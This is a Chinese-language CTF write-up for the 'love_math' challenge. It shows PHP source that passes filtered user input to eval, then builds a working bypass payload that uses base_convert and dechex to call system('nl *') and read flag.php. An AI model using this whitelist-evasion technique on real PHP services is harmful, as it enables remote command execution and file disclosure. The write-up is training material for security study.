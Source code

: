 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   love_math   # 标题 
 subtitle:  攻防世界 #副标题
 date:    2020-08-05    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - CTF

--- 
```


题目描述：解密

打开环境，

![dPckI1.png](https://s1.ax1x.com/2020/08/14/dPckI1.png)

```
 <?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}

```

同时扫描目录发现`flag.php`

![dPgmYq.png](https://s1.ax1x.com/2020/08/14/dPgmYq.png)

复现要求：php的版本要在7.1.20及以上

大概就是：传参c的长度不能大于80，然后黑名单过滤空格、制表符、换行、单双引号、反引号、[]；
白名单要求输入规定的数学表达式

我们发现base_convert函数可以返回任意字母，需要注意它无法返回_ *等特殊字符。

借助getallheader()来控制请求头，通过请求头的字段读取flag.php。

这里也就类似于$_GET，$_POST之类的，但是因为只能控制小写字符，所以大写的直接被pass掉。

getallheader()返回的是数组，要从数组里面取数据用array['xxx'],但是无奈[]被waf了,因为{}中是可以带数字的，这里用getallheader(){1}可以返回自定义头1里面的内容。

最后的payload如下：

	($pi=base_convert)(1751504350,10,36)($pi(1438255411,14,34)(dechex(1852579882)))


base_convert(1751504350,10,36) -------->system

$pi(1438255411,14,34) ------>hex2bin

dechex(1852579882) ----->将十进制转为十六进制：6e6c202a（字符串形式是：nl *）

nl *可以读取当前目录下的所有文件；

参考：

https://blog.csdn.net/weixin_44897902/article/details/102548706

https://www.cnblogs.com/sijidou/p/10802475.html

https://www.runoob.com/php/php-ref-math.html